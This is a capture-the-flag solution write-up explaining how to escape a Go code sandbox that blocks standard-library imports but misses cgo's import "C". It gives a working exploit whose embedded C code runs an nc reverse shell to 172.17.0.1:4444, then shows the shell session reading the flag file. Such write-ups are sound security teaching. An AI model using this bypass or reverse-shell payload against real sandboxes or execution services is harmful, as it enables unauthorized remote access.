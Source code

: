 # Solution

This challenge is based on Snyk's roadrunner CTF challenge which is further hardened and not as easily bypassable.

By reviewing the code one should notice:
```go
func (s *Sandbox) validate() error {
	fset := token.NewFileSet()
	f, err := parser.ParseFile(fset, SourceFile, *&s.Script, 0)
	if err != nil {
		return err
	}

	for _, i := range f.Imports {
		val := strings.Trim(i.Path.Value, "\"")
		for _, pkg := range s.pkgNames {
			if pkg != "" && strings.HasPrefix(val, pkg) {
				return fmt.Errorf("forbidden import: %s", val)
			}
		}
	}

	return nil
}
```

Imports are validated against a set of pre-built package names resolved in `NewSandbox` function:
```go
pkgs, err := packages.Load(&packages.Config{Mode: packages.NeedName}, "std")
if err != nil {
	return nil, fmt.Errorf("failed to load packages: %v", err)
}

pkgNames := make([]string, len(pkgs))
for i, pkg := range pkgs {
	if pkg.Name != "fmt" {
		pkgNames[i] = pkg.Name
	}
}
```

It is observable that all std packages are loaded into the denylist except for `fmt` package which is allowed.

The list of these packages can be seen with `go list`:
```sh
$ go list std
archive/tar
archive/zip
bufio
bytes
compress/bzip2
...
```

By carefully observing the list, you might notice that a specific integration import is not on the list: `import "C"`.

With this in mind, we can supply any C code to the Go code and call it from the main function:
```go
package main

//#include <stdio.h>
//void shell() {
//	system("nc 172.17.0.1 4444 -e /bin/sh");
//}
import "C"

func main() {
	C.shell()
}
```

The presented code executes a reverse shell which can then be leveraged to read the flag:
```
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.0.2 38939
id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
ls
sandbox
src.go
pwd
/tmp/exec2380286296
cd /
ls
app
bin
dev
etc
go
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd /app
ls
flag.txt
go.mod
go.sum
index.html
main.go
cat flag.txt
ibctf{m4y_th3-ext3rnal-SEE-b3-w1th-y0U}
```
